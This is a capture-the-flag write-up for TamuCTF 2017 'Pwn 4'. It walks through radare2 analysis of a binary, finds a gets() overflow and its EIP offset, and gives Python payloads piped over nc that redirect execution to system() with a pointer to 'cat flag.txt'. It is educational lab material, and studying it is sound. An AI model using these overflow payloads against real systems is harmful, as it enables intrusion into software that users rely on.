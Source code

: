 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-30T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/TamuCTF2017/pwn4/1-pwn4_description.png) 

Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier.

Lets take a look to the code with r2
```bash
$ r2 pwn4 -c 'aaa; afl'
```
![Pwn4 functions](/assets/TamuCTF2017/pwn4/2-pwn4_functions.png)

We can see four interesting functions:

* **`sym.flag_func()`** at `0x080484cb`
* **`sym.func2()`** at `0x080484e4`
* **`sym.func1()`** at `0x080484fd`
* **`sym.main()`** at `0x08048515`

```bash
[0x080483d0]> s sym.flag_func; V; p; p
# be positioned at start of sym.flag_func; Change to Visual mode; change mode view*2
```

Here they are, take a look at them.

![Pwn4 functions code](/assets/TamuCTF2017/pwn4/3-pwn4_functions_code.png)

Obviously we should try to execute that **`sym.flag_func()`**, it seems it will try print a file (**flag2.txt**, strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it on your own with:
```
[0x080484f7]> axt sym.flag_func
```

Then we need to keep looking a bit more.

1. ~~**`sym.func2()`**~~ is just printing a message (it even tells you not to waste your time with it). So we can strikethrough.
2. **`sym.func1()`** is a bit more interesting because it is using the unsecure function **`gets()`**.  
Thanks to this function we would be able to overwrite the **``$eip``** register. We dont need to cross our fingers a lot of time because we fastly see that **`sym.func1()`** is being called from **`main()`**! yay!

Lets figure out, how many bytes do we need to overwrite **``$eip``** register.
```bash
[0x080484f7]> q # Close r2 (we need to open the binary again with debug mode).
$ pwn cyclic 40 # To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -X "stdin=\"`pwn cyclic 40`\"" -d pwn4 -c 'aaa; dc;'
.
.
[0x61616165]> q
$ pwn cyclic -l 0x61616165
16
```
So, we can overwrite the **``$eip``** register writing the next following 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (**`flag2.txt`**) to try this out.

```bash
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
```
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/4-pwn4_printing_flag2.png)

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/5-pwn4_remote_flag2_content.png)

Ouch! that file was just a decoy. There must be a file named **`flag.txt`**.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to **`system()`**.
The only thing we need to do is to pass a different argument: **`cat flag.txt`** instead of **`cat flag2.txt`**.

If you inspect all the strings of the binary you may find surprise:
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/6-pwn4_pointer_flag_file.png):

As you may know, in order to pass the arguments to the function they need to be pushed into the stack. In case of a string not its value but its reference (a pointer **`0x0804a028`**.

Because we can overwrite the stack we can "imitate" a push into it:
1. Instead of starting in the address of **`sym.flag_func()`** (**`0x080484cb`**) we will use **`system()`** one (**`0x080484d9`**).
	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'
    ```
2. We need to push the pointer to the string to indicate **`system()`** which is its argument.
 	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'
    ```

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/7-pwn4_answer.png)
Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.